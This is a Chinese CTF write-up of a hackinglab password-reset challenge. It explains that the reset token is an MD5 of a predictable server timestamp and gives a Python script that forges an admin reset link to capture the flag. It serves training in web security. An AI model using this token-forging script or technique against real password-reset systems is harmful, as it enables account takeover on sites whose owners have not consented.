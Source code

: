```yaml
---
 来源CTF，希望应用于实践
---
```


# 关于python时间戳

## 0x00 问题来源

**来源**于hackinglab上的解密关第一关

> 以管理员身份登录系统分值: 450以管理员身份登录即可获取通关密码\(重置即可，无需登录\)  
> [通关地址](http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/index.php)  
> 补充说明：假设除了admin用户，其它用户的邮箱都可被登录获取重置密码的链接。

**思路**：重置管理员密码即可得到flag，重置普通用户密码会发来重置密码链接

[`http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=b8da475dac92b5bf97ea3fd928aad07f&username=admin123123`](http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=b8da475dac92b5bf97ea3fd928aad07f&username=admin123123)\`\`

![](.gitbook/assets/image%20%284%29.png)

重置管理员则需要自己构造链接，可以看出，重置链接中的sukey是上面Date参数加8小时的时间戳的MD5，其实这时直接构造链接也可以，但受网上wp的影响还是写了脚本，而且网上那些脚本都采用的是一种近乎于爆破的思路，但其实并没有那么麻烦

## 0x01 解题脚本详解

```text
import time
import requests
import hashlib
import datetime

s = requests.Session()
url = 'http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/'
#先发送一个请求得到cookie
r = s.get(url+'index.php')
#发送重置admin密码请求
r = s.post(url+'resetpassword.php',data={'username':'admin'})
#获取服务器时间格式Wed, 18 Jul 2018 00:43:24 GMT,t是处理后的时间 是服务器时间加8个小时 注意只有小时前面是0，且加8不会进位的时候生效，其余自己稍微改一下
t = str(datetime.datetime.now().year)+"-"+str(datetime.datetime.now().month)+"-"+str(datetime.datetime.now().day)+" "+"0"+str(int(r.headers['Date'][18:19])+8)+':'+r.headers['Date'][20:25]
timeArray = time.strptime(t, "%Y-%m-%d %H:%M:%S") 
#获得时间戳
timeStamp = int(time.mktime(timeArray)) 
#建立一个md5对象
tm = hashlib.md5()
#时间戳MD5加密，这里好像不用str()因为前面定义的就是str类型的
tm.update(str(timeStamp).encode('utf-8'))
#构造链接
urladmin = url+'reset.php?sukey='+tm.hexdigest()+'&username=admin'
print(urladmin)
r = s.get(urladmin)
#得到key
print(r.text)
```

## 0x02 总结

在线时间戳转换网站https://tool.lu/timestamp/

而且现实中这种时间戳漏洞据说还挺多的



